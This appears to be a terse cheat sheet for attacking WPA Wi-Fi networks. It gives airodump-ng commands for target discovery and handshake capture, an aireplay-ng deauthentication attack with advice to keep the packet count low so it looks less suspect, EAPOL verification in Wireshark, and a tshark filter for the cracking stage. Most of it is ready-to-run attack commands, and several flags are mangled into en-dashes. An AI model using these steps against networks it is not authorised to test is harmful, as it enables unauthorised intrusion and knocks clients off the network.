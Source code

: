### Target Discovery

```bash
airodump-ng ––band abg wlan#mon
```

NOTE: POWER SHOULD BE HIGHER THAN -58

### Target Collection

```bash
airodump-ng –c# wlan#mon
airodump-ng --bssid <BSSID> –c# wlan#mon
```

### Passive Handshake Collection

```bash
airodump-ng --bssid –c# –w <output> wlan#mon
```

NOTE: Look at the top right and WAIT for "WPA HANDSHAKE" to appear

### Active Handshake Collection

Only use when there's NO client communication and no HANDSHAKE are being transferred (e..g, I missed the handshake)

### Deauthentication Attack for Handshake Collection

```bash
aireplay-ng --deauth=(1-7) -a <MAC> -c <BSSID_MAC> wlan#mon
```

* `-0`: de-auth attack
* `1-7`: count (# of de-auth packets that you want to send)
  * ensure that you don't sent too many packets (very suspect if you do!)
* `-a`: (Source Address) BSSID/WAP of Access Point MAC
* `-c`: (Client) destination MAC address

### Verify the Handshake

Within wireshark filter for: `<eapol>`
Identify the 4 messages present!

### Handshake Troubleshooting

If multiple handshakes exist:
    Mark the 1 handshake with EAPOL protocol > export specified packets (file > export)

### Handshake Cracking

#### Tshark

```bash
tshark -r <.pcap> -Y "eapol || wlan.fc.type_subtype == 8" -w <output.pcap>
```
